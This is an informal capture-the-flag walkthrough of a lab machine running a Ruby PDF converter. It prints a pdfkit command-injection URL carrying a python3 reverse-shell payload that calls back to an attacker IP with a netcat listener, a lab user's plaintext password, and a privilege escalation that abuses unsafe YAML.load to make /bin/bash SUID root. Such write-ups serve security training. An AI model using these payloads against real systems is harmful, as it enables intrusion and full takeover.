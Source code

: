 info:
Service built on ruby
Foothold: done using ruby SSTI on vuln verison of pdfconverter
Enum: Get userpass from some file in the user "ruby directory" on hidden .bundle  folder contains config file with password

PE: 
Malicious file

1. Add the ip to /etc/hosts file so it loads the page
2. Set up python server to test the uploads conversion to pdf
3. use exiftool to analyse pdf
	- Found out its using a vuln verison of pdfkit v0.8.6
	- Google it to find command injection is possible
	- Tried using ``"http://10.10.XX.XX/?name=%20#{id}"`` but didnt work
	- Solution was ``"http://10.10.XX.XX/?name=%20`id`"`` using backticks instead
	- get a payloal rev shell...python3 the only one that worked??
	- ``http://10.10.XX.XX/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.XX.XX",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'\`
	- run nc -lvnp 9001 before uploading the shell
	- shud receive a bash shell

4.  Enumerate user "Ruby" to find password for user "henry" in some config file on a hidden .bundle folder
henry:Q3c1AqGHtoI0aXAYFH

5. ssh in using henry credentials
```bash
ssh henry@10.10.11.198
#enter password from above
```
6. cat the flag file in /henry/
7. Manually check for PE oppurtunities
	1. use sudo -l to list out folders that henry can access
	2. The follwing appears: 
	3. User henry may run the following commands on precious:
	    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
	3. check out the folders to find a ruby file update_dependencies

8. cat /opt/update_dependencies.rb 
9. Found vulnerability used by the file to execute stuff with root priv
10. YAML.load is not safe due to 'YAML deserialisation attack'
```ruby
def list_from_file
    YAML.load(File.read("dependencies.yml"))
```
Should be using YAML.safe_load() instead
This means when dependencies.yml is changed, arbitrary code execution is possible

11. Test out the vuln (change the below line in the dependencies.yml file)
		git_set: id
	--> this should test if id is given when ruby is used to run the update_dependencies.rb code
	--> The id shud appear with below command
	```bash
	# ruby is used to run update_dependencies.rb with sudo priveledges from henry
 sudo /usr/bin/ruby /opt/update_dependencies.rb
```
12. PE time
	1. change the git_set to git_set: "chmod +s /bin/bash" 
	2. check `ls -al /bin/bash` to see if SUID (Set User ID) has been given to /bin/bash so that it runs as the owner of the file (ie running it as root)
	3. /bin/bash -p  --> runs bash  in priveledged mode, keeping the UID of the person who launched it (ie henry) but since +s is set the new bash terminal has root priv
13. Root access gained from above PE cat out the flags.
